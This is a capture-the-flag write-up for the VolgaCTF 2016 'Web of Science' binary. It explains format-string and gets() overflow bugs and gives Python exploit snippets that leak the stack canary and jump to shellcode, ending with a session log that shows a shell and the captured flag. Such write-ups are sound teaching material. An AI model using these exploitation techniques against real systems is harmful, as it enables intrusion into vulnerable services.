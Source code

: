 +++
title = "VolgaCTF 2016 - Web of Science"
authors = ["hugsy"]
date = 2016-03-28T00:00:00Z
updated = 2016-03-28T00:00:00Z
aliases = ["/posts/2016/03/28/volgactf-2016-web-of-science.html"]

["taxonomies"]
tags = ["pwn","volgactf-2016","x86"]
categories = ["ctf"]
+++

### Info ###


```bash
gef➤  !file ./web_of_science
./web_of_science: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=85e0df26435ee411258ad39668c9700b1ebadec9, stripped
gef➤  checksec
[+] checksec for '/home/hugsy/ctf/volgactf_2016/web_of_science'
Canary:                                           Yes
NX Support:                                       No
PIE Support:                                      No
RPATH:                                            No
RUNPATH:                                          No
Partial RelRO:                                    Yes
Full RelRO:                                       No
```

It's a simple dynamically linked binary for x86-64. We have a canary stack
however the stack is executable (the '90s says hello!), which `gef`
confirms instantly:
{{ img(src="https://i.imgur.com/LfT3dt1.png" title="exec-stack") }}


### Vulnerabilities ###

`web_of_science` is a tool to manage scientific papers.
The binary is full of vulnerabilities, many of which were automatically detected
by the `format-string-helper` command from [GDB-GEF](https://github.com/hugsy/gef.git)

{{ img(src="https://i.imgur.com/cqYmZLi.png" title="fmt-str-gef") }}

Without any static analysis, we immediately spot that many (if not all)
`printf()` calls are vulnerable to format string vulnerabilities, where we
control the format field. That's good, we can leverage that later to bypass the
canary protection. So far, so good ☺


So what does the binary do? It starts by call the function at 0x04007CD which
checks if we are human by prompting us to solve an addition with randomly
generated integers. Pretty hardcore stuff, right?

Then we jump into serious business at 0x400E1C. The function offers a menu to
respectively add/delete/list/view papers and exit.

When adding a paper (`add_paper()` function), a stack buffer of 1096 bytes is
allocated on the stack. It is then possible to populate different fields of this
stack allocated paper as shown here:

{{ img(src="https://i.imgur.com/dTZmTgS.png" title="add-paper-fill-info") }}

When saving the stack buffer is then copied to the .bss segment:

```bash
.text:0000000000400BAD loc_400BAD:                             ; DATA XREF: .rodata:0000000000401240
.text:0000000000400BAD                 mov     eax, cs:nb_papers
.text:0000000000400BB3                 cdqe
.text:0000000000400BB5                 shl     rax, 6
.text:0000000000400BB9                 mov     rdx, rax
.text:0000000000400BBC                 shl     rdx, 4
.text:0000000000400BC0                 add     rax, rdx
.text:0000000000400BC3                 add     rax, offset base_papers
.text:0000000000400BC9                 mov     rdx, rax
.text:0000000000400BCC                 lea     rsi, [rbp+paper]
.text:0000000000400BD3                 mov     eax, 88h
.text:0000000000400BD8                 mov     rdi, rdx
.text:0000000000400BDB                 mov     rcx, rax
.text:0000000000400BDE                 rep movsq               ; memcpy(base_paper[i], paper_stack)
.text:0000000000400BE1                 mov     eax, cs:nb_papers
.text:0000000000400BE7                 add     eax, 1          ; increments the number of paper
.text:0000000000400BEA                 mov     cs:nb_papers, eax
.text:0000000000400BF0                 jmp     short loc_400BF9
```

One stricking thing is of course the massive use of `gets()` everywhere for user
input. So we think immediately to stack-based buffer overflow.

The `view_paper()` function (at 0x400D52) receives a pointer to a paper and
displays its information using `printf()` - which makes us understand what
triggered the `gef` plugin for format string.

{{ img(src="https://i.imgur.com/f7hs6qZ.png" title="view-paper") }}


### Exploitation ###

The exploitation process will go something like this:

   1. Use of the format string vulnerabilities to leak stack until we get the
      canary using `printf()`
   1. Overflow one of the stack allocated buffer using `gets()`, correctly
      insert the canary, and jump to our stack-based shellcode.

So this lines up the following sequential steps:

   - Create a paper to allocate a 1096 byte stack buffer
```python
    ok("Adding a paper")
    s.read_until("> ")
    s.write("1\n") # add_paper

    ok("Adding paper name")
    s.read_until("> ")
    s.write("1\n") # add_paper_name
    s.read_until("Paper name: ")
    s.write('A'*10+"\n")
```

   - Using the abstract field of the paper to store our format string to leak
    the canary, and the stack address (for returning to it).
```python
    ok("Adding paper abstract")
    s.read_until("> ")
    s.write("3\n") # add_paper_abstract
    s.read_until("Paper abstract: ")
    s.write("%7$p.%163$p" + "\n")
```
   A stack address was found at `"$7$p"` and the canary at `"%163$p"`.

   - We need to view the paper to actually trigger the format string information
     leak:
```python
    s.read_until("> ")
    s.write("5\n") # view_paper_info
    s.read_until("Abstract:\n\t")
    paper_addr, canary = s.read_until("\nTags:\n\t")[:-8].split('.', 1)
    paper_addr = int(paper_addr, 16)
    canary = int(canary, 16)
    ok("Got addr: %#x" % paper_addr)
    ok("Got canary: %#x" % canary)
```

   - And now, build our payload, overflow the buffer, insert the canary to get
   good karma, and make the `ret` at 0x400C0E fall back to our controlled
   buffer:
```python
    s.read_until("> ")
    s.write("1\n") # add_paper_name
    ok("Sending payload")
    payload = ""
    payload+= "\x90"*0x8
    payload+= SC
    payload+= "\x90"*(1096-len(payload))
    payload+= q_s(canary) + "JUNK"*2 + q_s(paper_addr)
    s.read_until("Paper name: ")
    s.write(payload + '\n')

    s.read_until("> ")
    s.write("6\n") # quit to trigger the ret
```

And the execution gives:
```bash
~/ctf/volgactf_2016 $  ./gef-exploit.py
[+] Connected to webofscience.2016.volgactf.ru:45678
[+] Passing checks
[+] Adding a paper
[+] Adding paper name
[+] Adding paper abstract
[+] Showing paper to leak the canary
[+] Got addr: 0x7fffffffe6e0
[+] Got canary: 0x675049f6baf95300
[+] Sending payload
[+] Got it, interacting (Ctrl-C to break)
[+] Get a PTY with ' python -c "import pty;pty.spawn('/bin/bash')"  '

python -c "import pty;pty.spawn('/bin/bash')"
nobody@scweb1:/opt$ ls
flag_wos.txt  install  start_wos  web_of_science
nobody@scweb1:/opt$ cat flag_wos.txt
VolgaCTF{executable_st@ck_doesnt_cause_@ny_problems_d0es_it}
```

All done mate !


### Conclusion ###

Final word (or image):

{{ img(src="https://i.imgur.com/PjfFC2f.jpg" title="image_alt") }}

Full exploit is : [gef-exploit.py](https://gist.github.com/hugsy/deae32e1da40e7b8c754)

A write-up for `web_of_science_2` might as well come soon, stay tuned...
